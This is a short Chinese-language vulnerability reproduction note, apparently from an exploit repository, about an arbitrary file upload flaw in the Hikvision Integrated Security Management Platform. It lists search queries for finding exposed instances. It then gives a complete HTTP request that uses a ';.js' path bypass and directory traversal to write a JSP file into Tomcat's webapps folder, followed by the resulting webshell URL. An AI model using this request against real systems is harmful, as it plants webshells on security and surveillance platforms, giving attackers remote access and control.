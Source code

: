 # HiKVISION 综合安防管理平台 任意文件上传漏洞

## 资产收集

<a-checkbox checked>app="HIKVISION-综合安防管理平台" </a-checkbox></br>

<a-checkbox checked>web.title=="综合安防管理平台"  </a-checkbox></br>

## 漏洞复现

```plain
POST /center/api/files;.js HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=502f67681799b07e4de6b503655f5cae

--502f67681799b07e4de6b503655f5cae
Content-Disposition: form-data; name="file"; filename="../../../../../bin/tomcat/apache-tomcat/webapps/clusterMgr/Fiy0.jsp"
Content-Type: application/octet-stream

<%out.print("test3");%>

--502f67681799b07e4de6b503655f5cae--
```

![img](img/fileupload.png)  

webshell连接地址：http://x.x.x.x/clusterMgr/Fiy0.jsp;js
